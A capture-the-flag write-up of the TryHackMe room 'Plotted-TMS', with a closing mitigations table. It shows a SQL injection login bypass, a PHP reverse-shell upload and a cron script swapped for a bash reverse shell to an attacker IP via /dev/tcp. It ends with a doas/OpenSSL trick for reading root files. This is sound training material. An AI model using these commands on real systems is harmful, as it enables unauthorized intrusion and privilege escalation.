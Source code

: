 [Plotted-TMS](https://tryhackme.com/room/plottedtms)

**Difficulty:** Easy

**Objective:** Exploit a vulnerable login with SQL injection, gain shell access via file upload, escalate privileges through a writable cronjob, and read root flag using OpenSSL and doas.

---

## Table of Contents  
- [1. Summary](#1-summary)  
- [2. Methodology](#2-methodology)  
- [3. Reconnaissance](#3-reconnaissance)  
- [4. Enumeration](#4-enumeration)  
- [5. Exploitation](#5-exploitation)  
- [6. Privilege Escalation](#6-privilege-escalation)  
- [7. Post Exploitation](#7-post-exploitation)  
- [8. Flags / Proof](#8-flags--proof)  
- [9. Mitigations](#9-mitigations)  
- [10. Notes](#10-notes)

---

## 1. Summary  
**IP/URL:** 10.10.212.224  
**Service/Ports:** 22/SSH, 80/HTTP, 445/HTTP  
**Entry Point:** SQL injection on port 445 `/management` login  
**Privilege Escalation:** Writable cronjob and `doas` misconfiguration  
**Outcome:** Gained shell access as `plot_admin`, read root flag using OpenSSL

---

## 2. Methodology  
Following the PTES (Penetration Testing Execution Standard):  
1. Reconnaissance  
2. Enumeration  
3. Exploitation  
4. Privilege Escalation  
5. Post-Exploitation  
6. Reporting

---

## 3. Reconnaissance  
Nmap scan:  
nmap -sS -sV 10.10.212.224  
Results:  
- 22/tcp - OpenSSH 8.2p1  
- 80/tcp - Apache 2.4.41  
- 445/tcp - Apache 2.4.41

---

## 4. Enumeration  
Gobuster on port 80:  
Found: /admin, /shadow, /passwd — none useful  

Gobuster on port 445:  
Found: /management  
Navigated to http://10.10.212.224:445/management and found a login page  
Used SQL injection: `' OR '1'='1' --`  
Successfully bypassed login

---

## 5. Exploitation  
Page allowed file uploads  
Uploaded a PHP reverse shell from PentestMonkey  
Started listener: nc -lvnp 4000  
Triggered the shell, gained access as www-data  
Spawned TTY shell:  
python3 -c 'import pty; pty.spawn("/bin/bash")'

---

## 6. Privilege Escalation  
Ran LinPEAS, found a cronjob running:  
* * * * * plot_admin /var/www/scripts/backup.sh  
Could not edit the file, but owned the `/var/www/scripts` directory  
Removed and replaced the script:  
rm /var/www/scripts/backup.sh  
echo '#!/bin/bash' > /var/www/scripts/backup.sh  
echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.21.***.***/4444 0>&1"' >> /var/www/scripts/backup.sh  
chmod +x /var/www/scripts/backup.sh  
Started listener: nc -lvnp 4444  
Got reverse shell as plot_admin  
Found user flag with `ls` and `less`

---

## 7. Post Exploitation  
Ran LinPEAS again and discovered a `doas` misconfiguration:  
permit nopass plot_admin as root cmd openssl  
Used GTFOBins for OpenSSL:  
LFILE=/root/root.txt  
doas -u root openssl enc -in "$LFILE"  
Successfully read the root flag

---

## 8. Flags / Proof  
User Flag: Retrieved as plot_admin from user directory  

Root Flag: Retrieved from /root/root.txt using OpenSSL and doas

---

## 9. Mitigations  
| Vulnerability                     | Risk   | Suggested Mitigation                              |  
|----------------------------------|--------|---------------------------------------------------|  
| SQL Injection                    | High   | Use prepared statements / parameterized queries   |  
| Arbitrary file upload            | High   | Restrict file types and enforce validation        |  
| Writable cronjob directory       | High   | Limit directory permissions and audit cron setup  |  
| doas misconfiguration            | High   | Limit doas privileges and review config (doas.conf) |

---

## 10. Notes  
Time spent: ~5 hours  

Tools used: nmap, gobuster, Burp Suite, pentestmonkey reverse shell, linpeas, nc  

Lessons learned: Always test all HTTP ports, SQL injection is still relevant, cronjob ownership can lead to root, and misconfigured doas with OpenSSL can be exploited to read protected files.
